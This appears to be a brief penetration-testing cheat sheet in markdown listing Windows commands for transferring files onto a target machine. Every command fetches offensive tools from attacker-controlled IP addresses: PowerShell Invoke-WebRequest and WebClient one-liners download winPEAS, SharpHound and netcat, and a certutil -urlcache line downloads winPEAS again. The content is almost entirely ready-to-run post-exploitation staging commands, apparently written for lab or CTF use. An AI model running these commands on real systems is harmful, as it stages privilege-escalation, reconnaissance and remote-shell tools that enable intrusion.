 
## powershell

```powershell
powershell Invoke-WebRequest -Uri "http://10.10.14.7/winPEASany.exe" -OutFile "winPEASany.exe" 
```
```sh
powershell Invoke-WebRequest -Uri "http://10.10.14.48/SharpHound.exe" -OutFile "SharpHound.exe" 
```

`upload via web`
```powershell
powershell (new-object System.Net.WebClient).Downloadfile('http://192.168.1.36/nc.exe', 'nc.exe')
```


## certutil.exe

```powershell
certutil.exe -urlcache -split -f "http://10.10.14.7/winPEASany.exe" winpeas.exe
```
